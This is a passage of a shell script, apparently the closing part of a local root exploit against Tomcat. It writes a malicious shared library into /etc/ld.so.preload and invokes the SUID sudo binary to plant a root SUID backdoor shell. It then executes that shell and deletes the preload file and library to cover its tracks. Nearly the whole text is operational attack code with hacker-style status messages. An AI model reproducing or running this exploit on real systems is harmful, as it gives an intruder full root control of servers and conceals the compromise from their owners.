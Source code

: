 ```
sleep 0.1

if [ -f /etc/ld.so.preload ]; then

echo $PRIVESCLIB > /etc/ld.so.preload

break;

fi

done

# /etc/ld.so.preload file should be owned by tomcat user at this point

# Inject the privesc.so shared library to escalate privileges

echo $PRIVESCLIB > /etc/ld.so.preload

echo -e “\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`”

echo -e “\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload”

echo -e “\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`”

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)

echo -e “\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!”

sudo --help 2>/dev/null >/dev/null

# Check for the rootshell

ls -l $BACKDOORPATH | grep rws | grep -q root

if [ $? -eq 0 ]; then

echo -e “\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`”

echo -e “\n\033[94mPlease tell me you’re seeing this too ![:wink:](img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

\033[0m”

else

echo -e “\n[!] Failed to get root”

cleanexit 2

fi

# Execute the rootshell

echo -e “\n[+] Executing the rootshell $BACKDOORPATH now! \n”

$BACKDOORPATH -p -c “rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB”

$BACKDOORPATH -p

# Job done. `cleanexit 0` 
```
